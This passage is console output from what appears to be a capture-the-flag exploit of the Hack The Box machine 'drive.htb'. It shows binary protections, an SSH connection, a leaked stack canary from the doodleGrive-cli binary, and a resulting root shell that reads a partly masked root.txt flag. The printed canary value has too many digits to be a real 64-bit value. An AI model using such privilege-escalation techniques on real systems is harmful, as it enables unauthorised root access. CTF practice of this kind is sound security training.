        NX:       NX enabled
        PIE:      No PIE (0x400000)
    [+] Connecting to drive.htb on port 22: Done
    [*] tom@drive.htb:
        Distro    Ubuntu 20.04
        OS:       linux
        Arch:     amd64
        Version:  5.4.0
        ASLR:     Enabled
    [+] Starting remote process bytearray(b'/home/tom/doodleGrive-cli') on drive.htb: pid 1743058
    [*] Leak canary: 0x11875039814129743360
    [*] Switching to interactive mode
    
    # id
    uid=0(root) gid=0(root) groups=0(root),1003(tom)
    # cat /root/root.txt
    641e7a5b************************
    

